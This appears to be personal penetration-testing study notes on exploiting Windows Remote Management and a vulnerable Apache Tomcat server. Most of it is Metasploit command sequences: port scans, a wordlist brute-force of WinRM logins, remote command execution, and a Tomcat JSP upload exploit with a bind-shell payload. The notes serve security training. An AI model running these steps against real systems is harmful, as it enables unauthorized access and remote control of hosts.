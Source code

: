 
- ==Exploiting WinRM (Windows Remote Management Protocol)==

> _==Windows Remote Management (WinRM)==_ ⇒ is a Protocol that can be used to facilitate remote access with windows system . `u can understand and act with it as the SSH Protocol`

> WinRM used to ⇒ ==remote access and interact with windows hosts on local network== && ==remote access and execute commands on windows system== && ==manage and configuration windows system remotely==

> Typically on port 5985 and 5986

- ==Exploiting WinRM==
    
    - `nmap -sS -sV -O <target ip>` ⇒ to do some scanning port to identify WinRM protocol
    - `service postgresql start` && `msfconsole` && `workspace -a WinRM`
    - `search type:auxiliary name:WinRm` && `use auxiliary/scanner/winrm/winrm_auth_methods`
    - `set rhost <target ip >` && `run`
    
    > Here we will know the authentication method that is used , to identify if we can do a brute force attack on it
    
    - `search winrm_login` && `use auxiliary/scanner/winrm/winrm_login`
    - `set rhost <target ip >` && `set pass_file /usr/share/metasploit…/data/wordlists/unix_password.txt` && `set user_file /usr/share/metasploit…/data/wordlists/common_user.txt`
    
    > after we get the username and password
    
    - `search winrm_cmd` && `use auxiliary/scanner/winrm/winrm_cmd`
    - `set username < >` && `set password < >` && `run`
    - `set cmd < command u want to run >`
    - `use exploit/windows/winrm_script_exec` && `set username < >` && `set password < >` && `set rhost <target ip >` && `set force_vbs true`
    
      
    
      
    

  

- ==Exploiting A Vulnerable Apache Tomcat Web Server==

> _Apache Tomcat or tomcat server_ is a popular , free and open source java servlet web server

> Is used to build and host dynamic website and web application based on java platform software

> on port 8080

> The standard Apache Http web server used to host website , ==typically developed in PHP== . on ==port 80==

> ==The apache tomcat developed in JAVA== , on ==port 8080==

> Apache Tomcat V8 to lower version is vuln to RCE on JSP(Java service page)

  

- ==Exploit Apache Tomcat==
    
    - `nmap -sV -sS -O <target ip >` ⇒ to do some port scanning to identify a apache tomcat server
    - `service postgresql start` && `msfconsole` && `workspace -a Tomcat`
    - `search type:exploit name:tomcat` && `use exploit/multi/http/tomcat_jsp_upload_bypass`
    - `set rhost <target ip>` && `set payload java/jsp_shell_bind_tcp` && `set shell cmd` && `run`
    